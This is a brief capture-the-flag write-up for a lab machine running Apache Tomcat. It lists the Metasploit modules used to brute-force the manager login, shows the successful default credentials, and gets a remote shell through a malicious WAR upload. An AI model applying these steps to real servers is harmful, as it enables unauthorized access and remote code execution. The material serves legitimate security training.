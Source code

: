 # Jerry Write-Up

Easy

Tags: 
`Easy`
`External`
`Tomcat`
`Java`
`Penetration Tester Level 1`
`Remote Code Execution`
`A05:2021-Security Misconfiguration`
`Default Credentials`
`Malicious WAR File Upload`

## Intro

1. Brute-force Credential Apache Tomcat
2. Exploit Apache Tomcat

## Exploit

### Port scanning

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

### Brute-force Credential

```
use auxiliary/scanner/http/tomcat_mgr_login
```

rhosts, rport > run

```
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

### Exploit Apache Tomcat

```
use exploit/multi/http/tomcat_mgr_upload
```

```
meterpreter > shell
```